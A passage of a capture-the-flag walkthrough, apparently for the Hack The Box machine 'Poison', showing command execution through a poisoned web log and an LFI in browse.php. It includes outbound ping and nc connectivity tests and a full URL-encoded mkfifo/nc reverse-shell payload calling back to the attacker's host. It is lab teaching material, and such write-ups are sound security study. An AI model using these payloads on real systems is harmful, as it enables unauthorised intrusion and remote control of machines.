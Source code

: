 Then visit:
`http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=id`

![](https://0xdfimages.gitlab.io/img/poison_poisoned.png)

## Reverse Shell

Just like we didn’t need the webshell, we don’t really need a reverse shell to complete Poison. Even if we hadn’t found `pwdbackup.txt` with `listfiles.php`, we still could find it now running `ls` in our webshell. Still, the fun of HTB is getting shells, so let’s get one with this web shell.

### Check Connectivity

A ping shows that we can generate outbound network traffic back to our host:

```

view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=ping 10.10.14.6

```

```

root@kali# tcpdump -i tun0 icmp
tcpdump: verbose output suppressed, use -v or -vv for full protocol decode
listening on tun0, link-type RAW (Raw IP), capture size 262144 bytes
13:03:55.775947 IP 10.10.10.84 > kali: ICMP echo request, id 30469, seq 0, length 64
13:03:55.775985 IP kali > 10.10.10.84: ICMP echo reply, id 30469, seq 0, length 64
13:03:56.799382 IP 10.10.10.84 > kali: ICMP echo request, id 30469, seq 1, length 64
13:03:56.799404 IP kali > 10.10.10.84: ICMP echo reply, id 30469, seq 1, length 64

```

A quick test with `nc` shows that we can get tcp connections back as well:

```

view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=nc 10.10.14.6 8081

```

```

root@kali# nc -lnvp 8081
listening on [any] 8081 ...
connect to [10.10.14.6] from (UNKNOWN) [10.10.10.84] 30536

```

### Shell as www

So let’s use the robust pipe shell from [Pentest Monkey’s Cheatsheet](http://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet) and get a shell. Visit `view-source:http://10.10.10.84/browse.php?file=/var/log/httpd-access.log&c=rm%20/tmp/f;mkfifo%20/tmp/f;cat%20/tmp/f|/bin/sh%20-i%202%3E%261|nc%2010.10.14.6%209001%20%3E/tmp/f`, and:

